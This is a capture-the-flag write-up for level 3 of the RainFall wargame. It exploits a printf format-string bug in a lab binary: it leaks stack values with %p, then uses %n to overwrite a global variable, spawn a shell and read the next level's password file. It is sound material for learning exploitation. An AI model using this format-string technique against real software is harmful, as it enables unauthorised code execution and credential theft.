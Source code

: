 # Level 3

In this level we can see that we need to edit the value of the variable `m` to `0x40` in order to get a shell.
```asm
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
The input is read with the secure function `fgets`, our exploit lies elsewhere, in `printf`.

## The exploit
```shell
level3@RainFall:~$ ./level3 
%p %p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0 0x25207025
```
Odd, we're getting the value of the argument of fgets and what strongly looks like stack addresses, which means....

Since we know that the ascii value of 0 is `0x30`, let's try inserting a bunch of 0 at the start of our buffer:
```shell
level3@RainFall:~$ python -c 'print "0000" + "%p "*10' | ./level3
00000x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```
We can see that the 4th pointer gets modified by our printf format string as it's made of four zeroes (0x30303030), nice!

Let's simplify our string a bit now that we know which argument we can act on

```shell
level3@RainFall:~$ python -c 'print "0000%4$p"' | ./level3
00000x30303030
```

## Inserting the address
```shell
level3@RainFall:~$ objdump -t ./level3  | grep m
[...]
0804988c g     O .bss   00000004              m
[...]
```
the value of `m` is `0x804988c`, we can get it from `gdb`, `r2`, `objdump` or ghidra.

Let's insert it as a value.
```shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$p"' | ./level3
0x804988c
```

#### note about struct.pack
struct.pack adds extra padding as we can see with hexdump:

```shell
level3@RainFall:~$ python -c 'import struct; print struct.pack("<Q", 0x804988c) + "%4$p"' | hexdump -C
00000000  8c 98 04 08 00 00 00 00  25 34 24 70 0a           |........%4$p.|
0000000d
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$p"'  | hexdump -C
00000000  8c 98 04 08 25 34 24 70  0a                       |....%4$p.|
00000009
```
This is why we write `0x804988c` in little-endian manually.

## Modifying memory
Now that we have access to the address of `m`, we can use `%n` to write a number to it as the BUG section of `printf` man tells us. 
The flag `%n` writes the number of character written so far to the pointer passed as argument, perfect to modify the value of `m`!

Since our format string is 4 bytes long, we need to add 60 more bytes

```shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

We won! we just need to find a way to keep the shell open now.

## Putting it together

Let's send `cat` on stdin after our format string to keep the shell open
```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' ; cat -) | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
[censored]
```
Done!
